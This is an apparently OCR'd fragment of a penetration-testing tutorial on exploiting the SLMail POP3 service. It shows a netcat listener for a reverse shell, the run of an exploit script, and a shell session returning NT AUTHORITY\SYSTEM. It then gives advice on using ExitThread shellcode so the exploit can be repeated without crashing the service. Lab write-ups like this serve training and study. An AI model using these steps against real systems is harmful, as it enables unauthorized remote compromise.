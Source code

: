 print "Could not connect to POP3!"

192.168.6.128:

nc -nlvp 4455

python exploit.py

Microsoft Windows [Version 6.1.7600]

Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\\Program Files\\SLmail\\System\>whoami

whoami

nt authority\\system

Once we exit the reverse shell, the SLMail POP3 service crashes and exits.

优化EXP

When using default Metasploit Framework shellcode, the default exit method the
shellcode uses, at the end of shellcode execution, is the ExitProcess. This exit
method will shut down the whole mail service process, effectively killing the
SLMail service, and causing it to crash.

If the program we are exploiting is a threaded application (which it is, in this
instance),

we can try to avoid crashing the service completely, by using an ExitThread
method

instead, which will just terminate the affected thread of the program. This will
make

our exploit work without interrupting the usual operations of the POP3 server,
as well

as allow us to repeatedly exploit the server, and exit the shell without
bringing down

the service. To instruct msfvenom to use the ExitThread method during the
shellcode

generation, we can issue the following command:
